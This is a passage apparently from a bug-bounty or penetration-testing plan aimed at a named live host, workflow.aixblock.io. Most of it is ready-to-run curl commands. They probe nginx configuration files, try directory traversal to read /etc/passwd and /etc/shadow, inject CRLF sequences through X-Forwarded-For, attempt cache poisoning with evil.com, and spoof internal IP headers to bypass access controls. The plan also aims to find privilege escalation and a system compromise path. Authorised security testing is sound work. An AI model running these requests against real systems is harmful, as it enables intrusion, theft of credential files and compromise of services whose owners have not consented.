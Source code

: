 3. **Test for Configuration File Access**
   ```bash
   # Test for nginx configuration access
   curl -s "https://workflow.aixblock.io/nginx.conf"
   curl -s "https://workflow.aixblock.io/etc/nginx/nginx.conf"
   curl -s "https://workflow.aixblock.io/conf/nginx.conf"
   ```

4. **Test for Directory Traversal**
   ```bash
   # Test for directory traversal
   curl -s "https://workflow.aixblock.io/api/v1/files/../../../etc/passwd"
   curl -s "https://workflow.aixblock.io/api/v1/files/../../../etc/shadow"
   curl -s "https://workflow.aixblock.io/api/v1/files/../../../etc/hosts"
   ```

5. **Link to Specific Exploitable Vulnerabilities**
   - Find specific CVEs for nginx 1.18.0
   - Demonstrate privilege escalation
   - Show system compromise path
   - Prove business impact

#### **Issue #319: IP Header Injection**
**Current Status**: Header injection often not exploitable
**Enhancement Strategy**:

1. **Test for HTTP Response Splitting**
   ```bash
   # Test for HTTP response splitting
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: 127.0.0.1\r\nSet-Cookie: malicious=value"
   
   # Test with different line endings
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: 127.0.0.1\nSet-Cookie: malicious=value"
   ```

2. **Test for Cache Poisoning**
   ```bash
   # Test for cache poisoning
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: evil.com\r\nHost: evil.com"
   
   # Test with different cache headers
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: evil.com" \
     -H "X-Original-Host: evil.com"
   ```

3. **Test for Security Control Bypass**
   ```bash
   # Test for IP-based access control bypass
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: 127.0.0.1" \
     -H "X-Real-IP: 127.0.0.1"
   
   # Test for admin IP spoofing
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: 192.168.1.1" \
     -H "X-Real-IP: 192.168.1.1"
   ```
